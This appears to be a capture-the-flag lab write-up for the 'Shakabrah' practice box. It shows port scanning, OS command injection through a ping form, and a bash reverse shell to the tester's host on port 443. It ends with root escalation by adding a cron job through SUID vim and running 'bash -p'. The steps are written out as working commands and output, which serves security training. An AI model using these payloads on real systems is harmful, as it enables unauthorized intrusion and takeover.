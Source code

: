 --------------------------------
# Shakabrah Writeup
--------------------------------

## Info-sheet
- IP-address: 192.168.122.86
- DNS-Domain name: N/A
- Host name: Shakabrah
- OS: Linux

## Overview
This box is quit easy box, gaining foothold through OS command injection on the website, and get root access by abusing misconfigured SUID perm on `vim.basic`.

-------
## Recon
-------
Services and ports:
```bash
# Nmap 7.91 scan initiated Sun Sep  5 21:44:33 2021 as: nmap -v -A -oN scans/nmap.txt -Pn 192.168.122.86  
Nmap scan report for 192.168.122.86  
Host is up (0.085s latency).  
Not shown: 998 filtered ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)  
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)  
|_  256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose  
Running (JUST GUESSING): Linux 4.X|5.X (85%)  
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5  
Aggressive OS guesses: Linux 4.15 - 5.6 (85%), Linux 5.0 - 5.3 (85%)  
No exact OS matches for host (test conditions non-ideal).  
Uptime guess: 0.789 days (since Sun Sep  5 02:48:42 2021)  
Network Distance: 2 hops  
TCP Sequence Prediction: Difficulty=251 (Good luck!)  
IP ID Sequence Generation: All zeros  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
TRACEROUTE (using port 80/tcp)  
HOP RTT       ADDRESS  
1   106.94 ms 192.168.49.1  
2   106.93 ms 192.168.122.86  
  
Read data files from: /usr/bin/../share/nmap  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Sun Sep  5 21:45:03 2021 -- 1 IP address (1 host up) scanned in 30.06 seconds
```

## Foothold
### Port 80 - Web server
/index.php
- The web page showing a form that let us enter IP address and to verify if it up or not
- entered input: `127.0.0.1`
```bash

PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.056 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.057 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.042 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3070ms
rtt min/avg/max/mdev = 0.022/0.044/0.057/0.014 ms
```
- Possible template command being run on the server --> `ping -c 4 $input`
- If there no filtering of the input, we may be able to perform *OS command injections*
- For PoC, we entered input: `; id`, the `;` gonna end the ping command and so execute our command `id`
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- possible command that ran on the server: `ping -c 4; id`

--------
## Exploitation
--------

### Port 80 - Web server
##### OS command injection
- We want to get reverse shell back, using simple bash reverse shell payload `bash -i >& /dev/tcp/$LHOST/1337 0>&1`
- Full payload to injection `; /bin/bash -c 'bash -i >& /dev/tcp/192.168.49.122/1337 0>&1'`
- Setup listener: `nc -lvnp 1337`
- Executed the payload, we're not recieve any connection back sadly
- Possibly, there some *firewall* setted up on the server, preventing outbound connection to some abnormal ports, like `1337` for example
- We change our listening port to port 443, a default port for Https/SSL
- set up listener and execute payload again
- We got connection back
```bash
kenobi@cg-home:~$ sudo nc -lvp 443
listening on [any] 443 ...
192.168.122.86: inverse host lookup failed: Unknown host
connect to [192.168.49.122] from (UNKNOWN) [192.168.122.86] 55428
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- stabalize our shell, by spawning tty shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@shakabrah:/var/www/html$
```

------------
## Privilege Escalation
------------

### SUID
- We perform basic SUID enumeration: `find / -perm -4000 2>/dev/null`
```bash
www-data@shakabrah:/var/www/html$ find / -perm -4000 2> /dev/null
find / -perm -4000 2> /dev/null
... SNIP ...
/bin/umount
/bin/fusermount
/usr/bin/newgidmap
/usr/bin/pkexec
--> /usr/bin/vim.basic <--
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/passwd
... SNIP ...
```
- vim.basic have SUID permission, this mean we be able to edit any files with permission as root using this binary
- We edit `/etc/crontab`, and add `* *  * * * *  root  chmod +s /bin/bash`
```bash
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab'  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  
  
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
# Example of job definition:  
# .---------------- minute (0 - 59)  
# |  .------------- hour (0 - 23)  
# |  |  .---------- day of month (1 - 31)  
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...  
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat  
# |  |  |  |  |  
# *  *  *  *  * user-name command to be executed  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly ) 
*  *    * * *   root    chmod +s /bin/bash
#
```
- What this does is, it add a task to be run concurrently every minute, and the task is to add SUID bit permission to /bin/bash as root
- We wait for a min, check /bin/bash permission: `ls -la /bin/bash`
```bash
-rwsr-sr-x 1 root root 1234376 Feb 24  2021 /bin/bash
```
- Now we can use [[gtfobins.github.io]] as a reference for SUID bit perm on `/bin/bash`
- If you an experienced pen-tester, we already know we can run `/bin/bash -p` to spawn shell with SUID privilege.
```bash
www-data@shakabrah:/$ /bin/bash -p
bash-5.1# id
uid=33(www-data) gid=33(www-data) groups=33(www-data) euid=0(root) egid=0(root) groups=0(root)
bash-5.1# whoami
root
bash-5.1#
```

##### Rooted!

###### References
- https://gtfobins.github.io/
- https://www.offensive-security.com/labs/individual/